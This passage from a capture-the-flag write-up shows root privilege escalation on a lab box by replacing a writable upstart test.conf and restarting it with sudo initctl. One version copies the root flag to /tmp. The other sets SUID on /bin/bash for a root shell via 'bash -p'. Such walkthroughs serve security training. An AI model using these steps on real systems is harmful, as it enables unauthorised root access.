 So we can replace one of the writable conf file with a malicious one.  
First we stop the service
```
sudo /sbin/initctl stop test
```

We can then modify the upstart script and escalate our privileges to root.
Malicious content of the new `test.conf`:
```
description "Test node.js server"
author      "katie"
    
start on filesystem or runlevel [2345]
stop on shutdown

script
	cat /root/root.txt > /tmp/flag
end script

```

We start the service
```
sudo /sbin/initctl start test
```


We can now retrieve the file
```
katie@spectra /etc/init $ cat /tmp/flag
d44519713b889d5e1f9e536d0c6df2fc
```


(Then we remove our flag file from `/tmp` to avoid that other people get an easy root flag).

In case we want to get a proper root shell, the content of the `test.conf` may be:
```
description "Test node.js server"
author      "katie"
    
start on filesystem or runlevel [2345]
stop on shutdown

script
	chmod +s /bin/bash
end script
```

Then: `/bin/bash -p`.













